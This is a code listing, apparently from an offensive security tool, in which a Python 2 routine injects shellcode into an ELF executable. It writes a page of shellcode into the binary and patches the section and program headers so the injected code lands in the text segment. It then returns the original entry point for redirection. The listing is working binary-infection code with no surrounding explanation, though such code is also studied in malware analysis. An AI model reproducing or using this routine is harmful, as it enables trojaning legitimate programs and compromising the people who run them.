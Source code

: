 \begin{lstlisting}[
  language={python},
]
        self.bin_file.close()
        self.bin_file = open(self.OUTPUT, "w+b")
        self.bin_file.write(file_1st_part)
        self.bin_file.write(shellcode)
        self.bin_file.write("\x00" * (PAGE_SIZE - len(shellcode)))
        self.bin_file.write(file_2nd_part)
        if self.elfbin.EI_CLASS == 0x01:
            self.bin_file.seek(24, 0)
            self.bin_file.seek(8, 1)
            self.bin_file.write(struct.pack(self.elfbin.endian + "I", self.elfbin.e_shoff + PAGE_SIZE))
            self.bin_file.seek(self.elfbin.e_shoff + PAGE_SIZE, 0)
            for i in range(self.elfbin.e_shnum):
                if self.elfbin.sec_hdr[i]['sh_offset'] >= newOffset:
                    self.bin_file.seek(16, 1)
                    self.bin_file.write(struct.pack(self.elfbin.endian + "I", self.elfbin.sec_hdr[i]['sh_offset'] + PAGE_SIZE))
                    self.bin_file.seek(20, 1)
                elif self.elfbin.sec_hdr[i]['sh_size'] + self.elfbin.sec_hdr[i]['sh_addr'] == shellcode_vaddr:
                    self.bin_file.seek(20, 1)
                    self.bin_file.write(struct.pack(self.elfbin.endian + "I", self.elfbin.sec_hdr[i]['sh_size'] + newBuffer))
                    self.bin_file.seek(16, 1)
                else:
                    self.bin_file.seek(40,1)
            after_textSegment = False
            self.bin_file.seek(self.elfbin.e_phoff,0)
            for i in range(self.elfbin.e_phnum):
                if i == headerTracker:
                    after_textSegment = True
                    self.bin_file.seek(16, 1)
                    self.bin_file.write(struct.pack(self.elfbin.endian + "I", self.elfbin.prog_hdr[i]['p_filesz'] + newBuffer))
                    self.bin_file.write(struct.pack(self.elfbin.endian + "I", self.elfbin.prog_hdr[i]['p_memsz'] + newBuffer))
                    self.bin_file.seek(8, 1)
                elif after_textSegment is True:
                    self.bin_file.seek(4, 1)
                    self.bin_file.write(struct.pack(self.elfbin.endian + "I", self.elfbin.prog_hdr[i]['p_offset'] + PAGE_SIZE))
                    self.bin_file.seek(24, 1)
                else:
                    self.bin_file.seek(32,1)
        self.bin_file.close()
        print "[!] Patching Complete"
        return (oldentry,shellcode_vaddr)
\end{lstlisting}
